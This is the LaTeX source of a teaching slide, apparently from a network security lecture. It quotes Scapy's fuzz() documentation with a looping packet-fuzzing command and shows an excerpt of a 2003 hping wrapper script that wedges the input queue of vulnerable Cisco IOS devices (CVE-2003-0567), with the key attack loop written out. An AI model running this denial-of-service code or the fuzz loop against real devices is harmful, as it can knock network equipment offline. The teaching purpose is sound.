 \documentclass[Screen16to9,17pt]{foils}
\begin{document}

\begin{quote}{\bf
Fuzzing}

The function fuzz() is able to change any default value that is not to be calculated (like checksums) by an object whose value is random and whose type is adapted to the field. This enables quickly building fuzzing templates and sending them in a loop. In the following example, the IP layer is normal, and the UDP and NTP layers are fuzzed. The UDP checksum will be correct, the UDP destination port will be overloaded by NTP to be 123 and the NTP version will be forced to be 4. All the other ports will be randomized. Note: If you use fuzz() in IP layer, src and dst parameter won’t be random so in order to do that use RandIP().:
\end{quote}

\begin{verbatim}
>>> send(IP(dst="target")/fuzz(UDP()/NTP(version=4)),loop=1)
................^C
Sent 16 packets.
\end{verbatim}


\begin{alltt}\scriptsize
\small
#!/bin/sh
# 2003-07-21 pdonahue
# cisco-44020.sh -- this shell script is just a wrapper for hping (http://www.hping.org)
#    with the parameters necessary to fill the input queue on exploitable IOS device
# -- refer to "Cisco Security Advisory: Cisco IOS Interface Blocked by IPv4 Packets"
# (http://www.cisco.com/warp/public/707/cisco-sa-20030717-blocked.shtml)
...
for protocol in $PROT
    do
       $HPING $HOST --rawip $ADDR --ttl $TTL --ipproto $protocol \\
       --count $NUMB --interval u250 --data $SIZE --file /dev/urandom
    done
\end{alltt}

CVE-2003-0567 -- Cisco IOS input queue wedge via crafted IPv4 protocol 53/55/77/103 packets\\







\slidenext{}
\end{document}

